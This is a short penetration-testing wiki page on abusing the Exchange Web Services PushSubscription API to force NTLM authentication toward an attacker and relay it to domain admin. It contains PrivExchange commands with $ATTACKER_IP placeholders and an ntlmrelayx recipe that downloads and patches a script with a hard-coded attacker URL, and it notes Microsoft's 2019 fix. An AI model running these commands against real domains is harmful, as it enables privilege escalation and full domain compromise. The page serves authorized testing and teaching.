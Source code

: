 ```yaml
---
authors: ShutdownRepo
---
```


# PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. The coerced authentication is made over HTTP, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

> [!TIP]
> In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) to make the API call.
> 
> The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.
> 
> ```bash
> cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
> mv httpattack.py httpattack.py.old
> wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
> sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
> cd /PATH/TO/impacket
> pip3 install .
> ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
> ```

> [!NOTE]
> On February 12th 2019, Microsoft released updates for Exchange which resolved
> 
> * the coerced authentication issue
> * the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.

## Resources

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
